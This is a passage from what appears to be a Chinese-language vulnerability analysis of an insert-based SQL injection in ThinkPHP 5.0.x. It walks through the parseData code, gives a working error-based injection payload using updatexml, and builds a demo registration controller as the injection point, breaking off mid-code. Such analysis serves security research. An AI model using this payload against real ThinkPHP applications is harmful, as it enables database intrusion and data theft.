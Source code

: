 ```php
                } else {
                    $key = str_replace('.', '_', $key);
                    $this->query->bind('data__' . $key, $val, isset($bind[$key]) ? $bind[$key] : PDO::PARAM_STR);
                    $result[$item] = ':data__' . $key;
                }
            }
        }
        return $result;
    }
```



### 根据parseData方法得到payload必须满足的条件：

```
输入值为数组，
payload格式为：arr[0]=inc&arr[1]=exp&arr[2]=数字
```

因为是insert注入，所以采用报错注入的方式，构造payload为：

```
arr[0]=inc&arr[1]=updatexml(0x7e,user(),0x7e)&arr[2]=1
```



此时需要找一个payload输入点，insert注册功能处就有。



### 简单写一个注册demo:

tp5.0.1/application/index/controller/Register.php

```php
<?php
namespace app\index\controller;
use app\index\model\Users;
use think\View;
use think\Controller;


class Register extends Controller{
    public function index(){
        $view = new View();
        return $view->fetch('index');
    }

    public function register(){
        //实例化User
        $user = new Users();
        //接收前端表单提交的数据

        $user->username = input('post.username');
        $user->sex = input('post.sex');
        $user->password = input('post.password');

        $result=array(

            "username"=>$user->username,
            "sex"=>$user->sex,
            "password"=>$user->password
        );

        db('users')->insert($result);
        return 'Update success';
```